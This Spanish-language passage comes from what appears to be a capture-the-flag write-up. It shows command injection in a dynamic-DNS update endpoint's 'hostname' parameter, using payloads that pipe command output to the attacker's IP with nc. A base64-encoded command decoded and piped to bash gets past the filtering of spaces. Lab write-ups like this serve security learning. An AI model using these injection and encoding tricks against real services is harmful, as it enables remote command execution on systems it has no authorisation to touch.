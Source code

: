Después de jugar con algunas cadenas (con las que habíamos obtenido respuesta antes no nos fue posible lograr algo, así que fue intentar e intentar), finalmente obtenemos nuestra ejecución remota de comandos:

Si intentamos enviar como **payload** esta cadena:

```py
payload = 'id | nc 10.10.14.146'
```

Donde el valor de la variable `hostname` quedaría así:

```py
hostname=id | nc 10.10.14.146.no-ip.htb&myip=...
```

En la respuesta vemos:

```bash
❱ python3 fuzz_myip.py 
[+] http://dyna.htb/nic/update?hostname=id | nc 10.10.14.146.no-ip.htb&myip=10.10.14.146
911 [wrngdom: 10.14.146.no-ip.htb]
```

Lo cual nos dice que hay un problema con los espacios de `id | nc 10...` Esto me llevo a intentar encerrar tooodo el comando a ver si el sistema lograba interpretarlo, pero nada:

```bash
❱ python3 fuzz_myip.py 
[+] http://dyna.htb/nic/update?hostname=$(id | nc 10.10.14.146).no-ip.htb&myip=10.10.14.146
911 [wrngdom: 10.14.146).no-ip.htb]
```

Aún sigue tomando los espacios, así que podemos intentar encodear la cadena a `base64` y que el mismo sistema la decodee:

```bash
❱ echo "id | nc 10.10.14.146 4433" | base64
aWQgfCBuYyAxMC4xMC4xNC4xNDYgNDQzMwo=
```

Donde para hacer que el sistema tome ese contenido y lo interprete deberíamos hacer:

```bash
❱ echo "aWQgfCBuYyAxMC4xMC4xNC4xNDYgNDQzMwo=" | base64 -d
id | nc 10.10.14.146 4433
# Tomamos esa cadena decodeada y la interpretamos
❱ echo "aWQgfCBuYyAxMC4xMC4xNC4xNDYgNDQzMwo=" | base64 -d | bash
(UNKNOWN) [10.10.14.146] 4433 (?) : Connection refused
```

Es hacer eso mismo pero en el payload:

```py
payload = '$(echo "aWQgfCBuYyAxMC4xMC4xNC4xNDYgNDQzMwo=" | base64 -d | bash)'
```

Nos ponemos en escucha:

```bash
❱ nc -lvp 4433
```
